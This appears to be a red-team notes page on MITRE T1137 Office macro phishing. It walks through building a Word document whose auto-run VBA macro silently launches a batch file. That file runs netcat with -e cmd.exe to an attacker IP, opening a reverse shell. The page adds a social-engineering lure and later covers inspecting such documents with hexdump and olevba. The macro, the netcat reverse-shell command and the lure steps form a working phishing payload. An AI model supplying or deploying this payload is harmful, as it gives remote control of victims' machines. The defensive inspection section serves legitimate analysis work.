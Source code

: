 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% tabs %}
{% tab title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="C:\\tools\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endtab %}
{% endtabs %}

This is how it should look roughly in:

![](../../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../../.gitbook/assets/macros-filename.png)

{% file src="../../../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../../../.gitbook/assets/macro-victim.png)

...and enabling the content - which results in attacker receiving a reverse shell:

![](../../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a WinZip or 7Zip and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file Dot3.dotm can be renamed to **Doc3.zip** and simply unzipped like a regular ZIP archive. Doing so deflates the archive and reveals the files that make up the malicious office document. One of the files is the `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros themselves:

![](../../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through it. This can sometimes give you as defender enough to determine if the document is suspicious/malicious. 

Running `hexdump -C vbaProject.bin` reveals some fragmented keywords that should immediately raise your suspicion - **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../../.gitbook/assets/macros-olevba.png)

{% hint style="danger" %}
Note that the olevba can be fooled as per [http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1137" %}

